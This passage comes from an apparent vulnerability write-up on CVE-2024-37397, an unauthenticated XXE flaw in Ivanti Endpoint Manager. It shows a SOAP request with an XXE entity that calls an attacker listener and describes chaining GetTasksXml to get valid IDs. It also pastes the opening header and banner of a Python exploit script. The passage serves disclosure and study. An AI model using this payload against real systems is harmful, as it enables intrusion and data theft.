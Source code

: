 ```xml
            <Name>string</Name>
            <Value>string</Value>
            <VariableOperation>add</VariableOperation>
          </UserVariable>
        </Variables>
        <actionXml><![CDATA[
  <!DOCTYPE foo [<!ENTITY example SYSTEM 
  "http:///192.168.1.44:8000"> ]>
  <data>&example;</data>
  ]]>
  </actionXml>
      </SetActionStatus>
    </soap:Body>
  </soap:Envelope>
```

Observing the request within the Burp Suite showed a 200 response and we observe a hit on our listener:

![XXE Exploit Sample - Burp Suite](/img/ivanti-cve-2024-37397/xxe-showcase.jpg)

# Crafting the Final Exploit

From the previous analysis, we understood that a valid `historyEntryID` is required to perform the `SetActionStatus` action. Like most exploits, my aim was to minimize dependencies on pre-existing data. In this case, we can leverage the `GetTasksXml` method to retrieve valid IDs and use them in the `SetActionStatus` request alongside our XXE payload, leading to the final exploit.

The final exploit combines the `GetTasksXml` and `SetActionStatus` requests. Essentially, `GetTasksXml` retrieves the valid `historyEntryID`, which is then used in the `SetActionStatus` request containing the XXE payload. Unfortunately, at the time of writing, the installed version had a license expiration issue, making reinstallation more complex than expected. However, the final exploit can be found [here](https://github.com/D4mianWayne/POCs/blob/main/CVE%202024-37397/CVE-2024-37397-Final-Full-Chain.py) and is also pasted below:

```python
# ---------------------------------------------------------
# Exploit Title: Ivanti Endpoint Manager Unauthorized XXE Exploit
# CVE: CVE-2024-37397
# Date: 2024-09-17
# Exploit Author: @D4mianWayne
# Vulnerability Discovered by: 06fe5fd2bc53027c4a3b7e395af0b850e7b8a044 (Trend Micro)
# Vendor Homepage: https://www.ivanti.com/
# Software Link: https://www.ivanti.com/products/ivanti-endpoint-manager
# Version: Affected versions [mention affected versions]
# Tested on: Ivanti Endpoint Manager version X.X.X
# CVE Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-37397
# ---------------------------------------------------------



import requests
import argparse
import urllib3
import xml.etree.ElementTree as ET

def print_banner():
    print("="*50)
    print("     Exploit Script for CVE-2024-37397")
    print("     Unauthorized XXE Exploit in Ivanti Endpoint Manager")
    print("="*50)
    print("     Created by @D4mianWayne")
    print("     Date: 2024-09-17")
    print("="*50)
```